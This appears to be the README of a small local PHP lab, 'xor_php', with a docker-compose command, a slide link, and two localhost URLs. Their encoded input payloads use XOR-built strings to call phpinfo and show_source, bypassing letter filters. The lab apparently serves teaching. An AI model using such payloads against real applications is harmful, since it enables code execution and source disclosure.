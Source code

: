 # xor_php

```txt
docker-compose up
```

<https://docs.google.com/presentation/d/1JW2_dSE4zKUzb5_GRORV4LdWw1aGzmzf7JjbyCn5Ri0/edit?usp=sharing>

phpinfo: <http://localhost:8080/?input=(%22/7/6190%22%20%5E%20%22_______%22)();>  
show_source: <http://localhost:8080/?input=(%22,70(%00,0*-%3C:%22^%22___________%22)(%2293%3E8%00/7/%22^%22____.___%22);>
